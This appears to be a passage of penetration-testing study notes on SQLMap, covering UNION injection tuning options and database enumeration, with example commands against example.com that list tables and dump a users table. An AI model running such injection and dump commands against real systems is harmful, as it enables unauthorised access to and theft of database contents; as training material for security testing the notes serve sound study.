 #### UNION SQLi Tuning

In some cases, `UNION` SQLi payloads require extra user-provided information to work. If we can manually find the exact number of columns of the vulnerable SQL query, we can provide this number to SQLMap with the option `--union-cols` (e.g. `--union-cols=17`). In case that the default "dummy" filling values used by SQLMap -`NULL` and random integer- are not compatible with values from results of the vulnerable SQL query, we can specify an alternative value instead (e.g. `--union-char='a'`).

Furthermore, in case there is a requirement to use an appendix at the end of a `UNION` query in the form of the `FROM <table>` (e.g., in case of Oracle), we can set it with the option `--union-from` (e.g. `--union-from=users`).  
Failing to use the proper `FROM` appendix automatically could be due to the inability to detect the DBMS name before its usage.

# Database Enumeration
## Basic Enumeration

- Database version banner (switch `--banner`)
- Current user name (switch `--current-user`)
- Current database name (switch `--current-db`)
- Checking if the current user has DBA (administrator) rights. (`--is-dba`)

### Table Enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
```
